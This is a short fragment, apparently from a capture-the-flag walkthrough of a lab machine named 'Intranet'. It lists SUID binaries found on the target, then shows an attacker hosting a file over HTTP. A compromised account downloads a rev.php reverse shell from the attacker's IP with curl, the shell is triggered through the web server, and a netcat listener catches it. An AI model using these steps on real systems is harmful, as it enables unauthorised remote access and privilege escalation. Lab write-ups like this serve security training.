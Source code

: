 ```bash
/snap/core20/1852/usr/lib/openssh/ssh-keysign
/snap/snapd/23771/usr/lib/snapd/snap-confine
/snap/snapd/18596/usr/lib/snapd/snap-confine
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/at
/usr/bin/fusermount
/usr/bin/su
/usr/bin/umount
/usr/bin/passwd
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/telnetlogin
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
```



```bash
:~/Intranet# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
devops@ip-10-201-0-156:~$ curl http://10.201.41.112:8000/rev.php -o rev.php
```


```bash
:~/Intranet# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.201.0.156 - - [01/Oct/2025 17:38:13] "GET /rev.php HTTP/1.1" 200 -
```


```bash
http://intranet.thm/rev.php
```

```bash
:~/Intranet# nc -nlvp 9001
Listening on 0.0.0.0 9001
```



```bash
devops@ip-10-201-0-156:~$ ls -lah /home/anders
ls: cannot open directory '/home/anders': Permission denied
```

